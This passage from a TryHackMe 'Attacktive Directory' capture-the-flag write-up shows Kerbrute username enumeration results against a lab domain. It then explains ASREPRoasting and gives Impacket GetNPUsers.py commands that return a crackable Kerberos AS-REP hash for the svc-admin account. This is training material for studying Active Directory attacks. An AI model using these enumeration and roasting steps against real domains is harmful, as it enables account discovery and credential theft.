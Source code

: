```
2020/10/17 11:08:23 >  [+] VALID USERNAME:       backup@spookysec.local
2020/10/17 11:08:23 >  [+] VALID USERNAME:       paradox@spookysec.local
2020/10/17 11:08:27 >  [+] VALID USERNAME:       JAMES@spookysec.local
2020/10/17 11:08:28 >  [+] VALID USERNAME:       Robin@spookysec.local
2020/10/17 11:08:37 >  [+] VALID USERNAME:       Administrator@spookysec.local
2020/10/17 11:08:52 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2020/10/17 11:08:57 >  [+] VALID USERNAME:       Paradox@spookysec.local
2020/10/17 11:09:14 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2020/10/17 11:09:19 >  [+] VALID USERNAME:       ori@spookysec.local
2020/10/17 11:09:28 >  [+] VALID USERNAME:       ROBIN@spookysec.local
2020/10/17 11:10:16 >  Done! Tested 100000 usernames (16 valid) in 116.694 seconds
```

`svc-admin`

3. What is the other notable account is discovered? (These should jump out at you)

`backup`

## Task 5 Exploiting Kerberos

**Introduction**

After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

**Exploitation**

Impacket has a tool called "GetNPUsers.py" (located in Impacket/Examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

1. We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ sudo python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/svc-admin -request -no-pass -dc-ip 10.10.225.245
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:27ca0413dd02b080a5370b1114e15d26$9dbfc5b2a618fab698eedcb5022d7cf1a86735364938defc0f06aa73cc608748b84aa5e3735f3f8942ff12d54da014ddc485155c919c30fbc671b91b7c27a07c2c5ba6f9c4ef637812035f73642fb38d3509d61a244b16376adcb42a31feb91b24dc816b90cca74497e7fe4c8f8883ad3124005c197cccc68dcc4cc499eb462aba71b22892c6b9e9dd53339087f61ac74a20752aecbe82df48d22bd373bfda0254084c47e7046a1d26f02c062a1599f4133b93a55de6d8bcd83dfc87166ef8c53b229934249c88785628fb4012480f20556d35dace5bf67b05470f0215298d4c6d1fa2e218e8930e1f29437d390b230ef396

kali@kali:~/CTFs/tryhackme/Attacktive Directory$ sudo python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/backup -request -no-pass -dc-ip 10.10.225.245
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for backup
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```
